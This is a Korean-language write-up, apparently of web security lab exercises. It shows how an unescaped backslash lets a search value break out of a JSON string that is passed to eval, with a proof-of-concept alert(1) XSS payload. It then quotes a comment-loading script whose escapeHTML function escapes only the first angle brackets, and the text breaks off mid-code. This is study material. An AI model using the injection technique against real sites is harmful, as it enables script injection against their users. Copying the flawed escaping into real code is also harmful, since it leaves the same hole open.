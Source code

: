 `onreadystatechange` 프로퍼티는 서버에서 응답이 오면 콜백 함수를 실행하는데 사용합니다.

`this.responseText`를 통해 악의적인 코드를 `eval`함수가 실행하도록 하면 문제가 해결되지 않을까싶다.

다음와 같이 요청을 보내면 `/search-results?search=%22a`
response가 다음과 같이 옵니다.
```json
{"results":[],"searchTerm":"\"a"}
```

위 response를 보면 `"`이 escape 처리된 것을 알 수 있다.


하지만 다음과 같이 요청을 보내면 `/search-results?search=\`
response가 다음과 같이 옵니다.

```json
{"results":[],"searchTerm":"\"}
```

위를 통해 `\`는 escape되지 않는다는 것을 알 수 있다. 

다음과 같이 요청을 보낸다면 
```
\"+alert(1)}//
``` 
json이 아래와 같이 출력된다.
```json
{"results":[],"searchTerm":"\\"+alert(1)}//"}
```

`eval`은 아래와 같이 실행할테고 내부에서 alert() 함수가 가장 먼저 평가되고(??) 실행된다. 그리고 문제가 해결된다.
```js
var searchResultsObj = {"results":[],"searchTerm":"" + alert(1)}; //"}
```
## Application
---

코멘트를 입력하는 곳에 script를 잘 보면 다음과 같은 부분을 찾을 수 있다. l
```html
<span id='user-comments'>
    <script src='/resources/js/loadCommentsWithVulnerableEscapeHtml.js'></script>
    <script>loadComments('/post/comment')</script>
</span>
```

`/resources/js/loadCommentsWithVulnerableEscapeHtml.js`에 `loadComments()`가 정의되어 있다.
```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
```